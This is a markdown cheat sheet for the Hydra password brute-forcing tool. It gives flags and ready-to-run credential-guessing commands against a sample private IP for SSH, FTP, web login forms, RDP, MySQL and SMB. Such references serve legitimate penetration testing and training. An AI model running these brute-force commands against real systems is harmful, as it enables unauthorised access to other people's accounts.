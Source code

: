 ## Hydra Cheat Sheet
| Command                                           | Description                                               | Example                                             |
|---------------------------------------------------|-----------------------------------------------------------|-----------------------------------------------------|
| `hydra -l [user] -p [password] [target] [service]`| Performs a brute-force attack with one username and one password. | `hydra -l admin -p password123 192.168.1.10 ssh`    |
| `hydra -L [userlist] -p [password] [target] [service]`| Uses a list of usernames and a single password.           | `hydra -L users.txt -p password123 192.168.1.10 ssh`|
| `hydra -l [user] -P [passwordlist] [target] [service]`| Uses a single username and a list of passwords.           | `hydra -l admin -P rockyou.txt 192.168.1.10 ftp`    |
| `hydra -L [userlist] -P [passwordlist] [target] [service]`| Uses lists of usernames and passwords.                   | `hydra -L users.txt -P rockyou.txt 192.168.1.10 ssh`|
| `hydra -e [mode] [target] [service]`              | Tests additional passwords based on `mode` (e.g., empty, reverse). | `hydra -l admin -P rockyou.txt -e nsr 192.168.1.10 http` |
| `hydra -t [threads] [target] [service]`           | Sets the number of parallel connections (default: 16).    | `hydra -l admin -P passwords.txt -t 4 192.168.1.10 ssh` |
| `hydra -vV [target] [service]`                    | Enables verbose output for detailed logging.              | `hydra -vV -l admin -P rockyou.txt 192.168.1.10 ssh`|
| `hydra -s [port] [target] [service]`              | Specifies a non-default port for the service.             | `hydra -l admin -P rockyou.txt -s 2222 192.168.1.10 ssh`|
| `hydra -f [target] [service]`                     | Stops the attack after the first successful login.         | `hydra -l admin -P rockyou.txt -f 192.168.1.10 ssh` |
| `hydra -o [file] [target] [service]`              | Saves successful login attempts to a file.                | `hydra -l admin -P rockyou.txt -o results.txt ssh://192.168.1.10` |

---

## Common Services and Commands
| Service       | Example Command                                      |
|---------------|------------------------------------------------------|
| **SSH**       | `hydra -l root -P passwords.txt 192.168.1.10 ssh`    |
| **FTP**       | `hydra -L users.txt -P passwords.txt 192.168.1.10 ftp`|
| **HTTP GET**  | `hydra -L users.txt -P passwords.txt 192.168.1.10 http-get /login` |
| **HTTP POST** | `hydra -L users.txt -P passwords.txt 192.168.1.10 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"` |
| **RDP**       | `hydra -l admin -P passwords.txt 192.168.1.10 rdp`   |
| **MySQL**     | `hydra -L users.txt -P passwords.txt 192.168.1.10 mysql` |
| **SMB**       | `hydra -L users.txt -P passwords.txt 192.168.1.10 smb` |

---

## Workflow Example
1. **Test a Single Username and Wordlist**
   ```bash
   hydra -l admin -P rockyou.txt 192.168.1.10 ssh